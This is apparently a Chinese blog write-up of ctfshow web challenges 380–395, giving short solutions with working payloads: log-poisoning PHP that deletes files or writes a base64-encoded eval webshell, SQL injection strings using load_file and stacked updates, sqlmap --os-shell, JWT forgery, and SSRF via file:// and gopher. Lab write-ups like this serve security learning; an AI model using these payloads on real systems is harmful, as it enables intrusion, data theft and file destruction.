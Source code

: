 ﻿---
title: ctfshow web入门(黑盒测试)
categories: ctfshow
---
# 380
先dirsearch 扫一下 发现只有page.php可以访问

```
Notice: Undefined index: id in /var/www/html/page.php on line 16
```
打开`$id.php`失败

根据前面的`page_1.php  page_2.php page_3.php`

猜测id 为跳转的页面

后来发现使用了file_get_contents()函数

Payload：/page.php?id=flag


<!--more-->
---
# 381
访问：

![](https://img-blog.csdnimg.cn/20210702222422622.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
![](https://img-blog.csdnimg.cn/2021070222243495.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
# 382,383
再次访问后台，先尝试一手万能密码，直接进去

![](https://img-blog.csdnimg.cn/20210702222515146.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
# 384
后台爆破密码
写一个字典bp跑或者直接bp设置
密码：xy123

---
# 385
扫目录

![](https://img-blog.csdnimg.cn/20210702222558506.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
访问

![](https://img-blog.csdnimg.cn/2021070222261351.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
操作之后，返回登录页面弱密码admin admin888

---
# 386

![](https://img-blog.csdnimg.cn/20210702222656267.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

扫目录发现clear.php访问：

![](https://img-blog.csdnimg.cn/20210702222719996.png#pic_center)

看wp发现是传入file参数，任意文件删除

那么删除lock.dat,即可重新执行install

?file=install/lock.dat

重新访问登录即可

---
# 387
扫到/debug/传入file参数 发现可以文件包含

![](https://img-blog.csdnimg.cn/20210702222823341.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
访问日志文件/var/log/nginx/access.log

可以将php写入UA，再将日志文件包含，执行php

查看日志发现没有写进去

![](https://img-blog.csdnimg.cn/20210702222940342.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
那么直接使用系统命令删除
```
<?php system('rm /var/www/html/install/lock.dat');?>
```



还有yu师傅：
```
<?php unlink('/var/www/html/install/lock.dat');?>
```

也可以写个马儿上去
```
<?php system('echo PD9waHAgZXZhbCgkX1BPU1Rbc2hlbGxdKTs/Pg==|base64 -d > /var/www/html/cys.php');?>
```

还有bit师傅直接读取check.php
```
<?php system('cat /var/www/html/alsckdfy/check.php > /var/www/html/1.txt');?>    好思路
```


---
# 388
还是写马儿

可以看看预期解，利用editor的漏洞

---
# 389
Cookie发现jwt，爆破或者猜钥匙为123456，伪造cookie，重复上面

---
# 390
发现debug权限不足。

看文章id这里不一样了，sqlmap跑一下

![](https://img-blog.csdnimg.cn/20210702223310517.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
```
--os-shell或者--file-read
```

---
# 391,392
注入点：
```
search.php?title=1' union select 1,2,3-- -
```
或者直接读：
```
search.php?title=1'union select 1,substr((select load_file('/flag')),1,50),3%23
```

# 393
Link.php发现id控制跳转的url，可以利用ssrf跳到/flag

![](https://img-blog.csdnimg.cn/20210702224059678.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

Search.php用sqlmap跑出来`link表`和`url列`


在注入处尝试将表中数据进行更改
```
search.php?title=1';update link set url='file:///flag';
```
或者yu师傅的插入：
```
search.php?title=1';insert into link values(10,'a','file:///flag');
```

---
# 394,395
```
1';update link set url=0x66696c653a2f2f2f7661722f7777772f68746d6c2f616c73636b6466792f636865636b2e706870; 
```
16进制绕过

或者yu师傅，gopher打mysql

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210702224301269.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)


